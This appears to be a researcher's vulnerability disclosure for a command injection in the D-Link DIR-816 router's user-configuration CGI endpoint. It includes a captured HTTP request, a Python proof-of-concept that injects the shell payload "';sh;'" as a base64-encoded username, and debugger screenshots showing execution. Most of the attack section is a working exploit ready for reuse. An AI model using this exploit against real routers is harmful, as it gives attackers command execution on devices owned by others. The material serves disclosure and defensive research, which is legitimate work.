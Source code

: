 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_4566E0 ruction in IDA view

<img src="./img/image-20210819130609706.png" alt="image-20210819130609706" style="zoom:50%;" />

​	Select user account configuration under the maintenance option of router configuration.

<img src="./img/image-20210819142952276.png" alt="image-20210819142952276" style="zoom:50%;" />

​	The modified user name is processed through the webdecode64 function and passed to the dosystem function in the form of formatted parameters. Therefore, the user name is constructed for command injection.

```
POST /goform/form2userconfig.cgi HTTP/1.1

Host: 192.168.33.9

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 183

Origin: http://192.168.33.9

Connection: close

Referer: http://192.168.33.9/d_userconfig.asp

Cookie: curShow=

Upgrade-Insecure-Requests: 1



username=Jztsczsn&privilege=2&oldpass=&newpass=MTIz&confpass=MTIz&deluser=%E5%88%A0%E9%99%A4&select=s0&hiddenpass=192.168.33.9&submit.htm%3Fuserconfig.htm=Send&tokenid=304089172
```

​	The function uses Base64 to decode the received user name, so Base64 encoding is required.

<img src="./img/image-20210819133402633.png" alt="image-20210819133402633" style="zoom:50%;" />

<img src="./img/image-20210819133845707.png" alt="image-20210819133845707" style="zoom:50%;" />

​	 this vulnerability requires the user to have permission to configure the router

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":base64.b64encode("';sh;'"),#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST

​	First run our POC

<img src="./img/image-20210819160553286.png" alt="image-20210819160553286" style="zoom:50%;" />

​	GDB stops at the command we are about to execute

<img src="./img/image-20210819160627461.png" alt="image-20210819160627461" style="zoom:50%;" />

​	Successfully executed sh

<img src="./img/image-20210819161606757.png" alt="image-20210819161606757" style="zoom:50%;" />
